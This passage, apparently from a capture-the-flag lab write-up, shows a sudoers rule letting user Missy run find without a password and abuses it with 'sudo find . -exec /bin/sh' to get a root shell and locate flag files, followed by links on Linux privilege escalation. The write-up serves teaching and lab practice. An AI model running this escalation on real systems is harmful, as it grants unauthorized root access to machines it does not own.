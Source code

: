 ```bash
    (ALL) NOPASSWD: /usr/bin/find

```

The user Missy can run `find` With the sudo command, we can abuse this to escalate 

```bash
[missy@ip-10-10-181-178 leonard]$ sudo find . -exec /bin/sh \\; -quit
sh-4.2# whoami
root
sh-4.2# find / -name flag*.txt
/home/missy/Documents/flag1.txt
/home/rootflag/flag2.txt

```

## References:

- [ExploitingBadlyConfiguredCronJobs](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/#5_Exploiting_Badly_Configured_Cron_Jobs*)
- [cybersecurity-101-privilege-escalation](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/privilege-escalation/*)
- [strongdm-linux-privilege-escalation](https://www.strongdm.com/blog/linux-privilege-escalation*)
